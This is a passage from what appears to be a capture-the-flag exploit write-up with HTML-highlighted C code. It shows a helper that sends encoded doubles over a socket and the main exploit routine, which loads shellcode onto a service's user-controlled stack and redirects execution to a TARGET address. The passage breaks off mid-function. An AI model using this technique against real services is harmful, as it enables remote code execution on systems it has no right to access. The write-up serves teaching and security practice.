   <span class="Comment">/*</span><span class="Comment"> Turn the double into a string </span><span class="Comment">*/</span>
  sprintf(buf, <span class="Constant">&quot;</span><span class="Special">%.127lg</span><span class="Special">\n</span><span class="Constant">&quot;</span>, d);
  printf(<span class="Constant">&quot;Pushing </span><span class="Special">%s</span><span class="Constant">&quot;</span>, buf);

  <span class="Comment">/*</span><span class="Comment"> Send it </span><span class="Comment">*/</span>
  <span class="Identifier">if</span>(send(s, buf, strlen(buf), <span class="Constant">0</span>) != strlen(buf))
    perror(<span class="Constant">&quot;send error!&quot;</span>);
}
</pre>

And it worked perfectly!

<h3>The exploit</h3>

Well, we have a stack (one again, not to be confused with the program's stack) where we can put shellcode. It has a static memory address and is user-controllable. We also have a way to encode the shellcode (and addresses) so we wind up with fully controlled values on the stack. Let's write an exploit!

Here's the bulk of the exploit:

<pre>
<span class="Type">int</span> main(<span class="Type">int</span> argc, <span class="Type">const</span> <span class="Type">char</span> *argv[])
{
  <span class="Type">char</span> buf[<span class="Constant">1024</span>];
  <span class="Type">int</span> i;

  <span class="Type">int</span> s = get_socket();

  <span class="Comment">/*</span><span class="Comment"> Load the shellcode </span><span class="Comment">*/</span>
  <span class="Statement">for</span>(i = <span class="Constant">0</span>; i &lt; strlen(shellcode); i += <span class="Constant">8</span>)
    do_push(s, shellcode + i);
  <span class="Comment">/*</span><span class="Comment"> Pop the shellcode (in retrospect, this could be replaced with a single 'c') </span><span class="Comment">*/</span>
  <span class="Statement">for</span>(i = <span class="Constant">0</span>; i &lt; strlen(shellcode); i += <span class="Constant">8</span>)
    do_pop(s);

  <span class="Comment">/*</span><span class="Comment"> Pop until we're at the recv() call </span><span class="Comment">*/</span>
  <span class="Statement">for</span>(i = <span class="Constant">0</span>; i &lt; <span class="Constant">38</span>; i++)
    do_pop(s);

  do_push(s, TARGET);

  <span class="Comment">/*</span><span class="Comment"> Send a '.' just so I can catch it </span><span class="Comment">*/</span>
  sprintf(buf, <span class="Constant">&quot;.</span><span class="Special">\n</span><span class="Constant">&quot;</span>);
  send(s, buf, strlen(buf), <span class="Constant">0</span>);
